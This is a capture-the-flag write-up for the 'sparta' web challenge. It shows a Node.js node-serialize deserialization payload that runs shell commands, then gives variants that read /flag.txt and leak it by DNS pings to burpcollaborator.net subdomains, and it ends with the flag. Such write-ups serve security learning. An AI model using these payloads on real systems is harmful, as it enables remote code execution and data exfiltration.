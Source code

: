 ```yaml
---
layout: post
title: "sparta"
author: "shreyas-sriram"
tags: ['Web']
---
```


Spartanians are starting to lose their great power, help them move their objects and rebuild their Empire. 

Link - [Sparta](http://web.zh3r0.cf:6666)
Source - [source]({{site.baseurl}}/assets/sparta/source-code)

## Solution
- On reviewing the source code, the line `var obj = serialize.unserialize(str);` seems suspicious
- A quick online search leads to a [known exploit](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- Following the PoC from the article, the following payload is constructed

```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('<command>', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

- Replace `<command>` with a suitable command to extract the flag out-of-band
- The below payload uses DNS to extract the flag

```
// to find the total characters in /flag.txt
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping $(wc -c < /flag.txt).ih36jzqfsq2dsbdhg56qmz6z3q9hx6.burpcollaborator.net', function(error, stdout, stderr) { console.log(stdout) });\n }()"}

// extract only the part of the flag between the curly braces
// zh3r0{<extract this>}
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping $(cat /flag.txt | cut -c7-52).9lvmt3fkdemz1xshrjzcac4njep4dt.burpcollaborator.net', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

> Alternate solutions : Using `curl`.

## Flag
```
zh3r0{4ll_y0u_h4d_t0_d0_w4s_m0v3_th3_0bjc3ts_3mper0r}
```
